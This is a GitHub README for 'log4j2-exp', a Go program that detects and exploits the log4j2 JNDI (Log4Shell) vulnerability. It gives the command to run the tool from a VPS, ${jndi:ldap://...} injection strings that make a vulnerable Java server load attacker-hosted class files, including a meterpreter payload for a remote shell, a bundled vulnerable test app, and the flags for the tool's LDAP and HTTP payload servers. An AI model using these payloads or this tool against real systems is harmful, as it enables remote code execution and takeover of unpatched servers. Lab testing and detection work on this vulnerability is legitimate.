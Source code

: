 # log4j2-exp
 * Check and exploit log4j2 vulnerability with single Go program. 
 * You don't need to install anything except develop it.
 * It support ldaps and https server for other usage.

## Run
   ```log4j2-exp.exe -host "VPS IP address"```
  

## Check
 * run the log4j2-exp server
 * send ```${jndi:ldap://127.0.0.1/nop.class}```

## Exploit
 * run the log4j2-exp server
 * put your class file to the payload directory
 * send ```${jndi:ldap://127.0.0.1/meterpreter.class}```
 * will open source after some time

## VulApp
 * VulApp is a vulnerable Java program that use log4j2 package.\
 * You can use it for develop this project easily.\
 * ```java -jar vulapp.jar ${jndi:ldap://127.0.0.1/calc.class}```

## Help
  ``` 
  :::        ::::::::   ::::::::      :::   ::::::::::: ::::::::
  :+:       :+:    :+: :+:    :+:    :+:        :+:    :+:    :+:
  +:+       +:+    +:+ +:+          +:+ +:+     +:+          +:+
  +#+       +#+    +:+ :#:         +#+  +:+     +#+        +#+
  +#+       +#+    +#+ +#+   +#+# +#+#+#+#+#+   +#+      +#+
  #+#       #+#    #+# #+#    #+#       #+# #+# #+#     #+#
  ########## ########   ########        ###  #####     ##########

                           https://github.com/For-ACGN/log4j2-exp

Usage of log4j2-exp.exe:
  -dir string
        payload(java class) directory (default "payload")
  -host string
        server IP address or domain name (default "127.0.0.1")
  -http-addr string
        http server address (default ":8080")
  -http-net string
        http server network (default "tcp")
  -ldap-addr string
        ldap server address (default ":389")
  -ldap-net string
        ldap server network (default "tcp")
  -tls
        enable ldaps and https server
  -tls-cert string
        tls certificate file path (default "cert.pem")
  -tls-key string
        tls private key file path (default "key.pem")
  ```


## Screenshot
![](https://github.com/For-ACGN/log4j2-exp/raw/main/screenshot.png)
